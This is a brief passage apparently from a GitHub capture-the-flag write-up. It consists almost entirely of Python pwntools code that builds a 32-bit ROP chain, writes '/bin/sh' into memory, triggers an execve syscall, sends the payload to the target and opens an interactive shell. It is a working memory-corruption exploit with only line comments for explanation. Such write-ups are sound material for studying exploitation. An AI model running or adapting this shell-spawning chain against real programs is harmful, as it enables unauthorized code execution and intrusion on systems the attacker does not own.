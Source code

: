 ```python
payload += p32(pop_edx) + p32(write_addr) #load address to write to
payload += p32(mov_dword_edx_eax) #write /bin to memory

payload += p32(pop_eax) + p32(binsh2) #load /sh to eax
payload += p32(pop_edx) + p32(write_addr+0x4) #load address to write to
payload += p32(mov_dword_edx_eax) #write /sh to memory

payload += p32(pop_eax) + p32(11) #load execve syscall number to eax
payload += p32(pop_ecx_ebx) + p32(0) + p32(write_addr) #load 0 to ecx and pointer to /bin/sh to ebx
payload += p32(pop_edx) + p32(0)
payload += p32(syscall)

log.info("length of payload: "+hex(len(payload)))
io.send(b"\x78")
io.send(payload)

io.interactive()
```

![image](https://github.com/AndreQuimper/Writeups/assets/96965806/e4d3eb5b-6cb7-41ea-9b2c-a772f4e4b8ba)




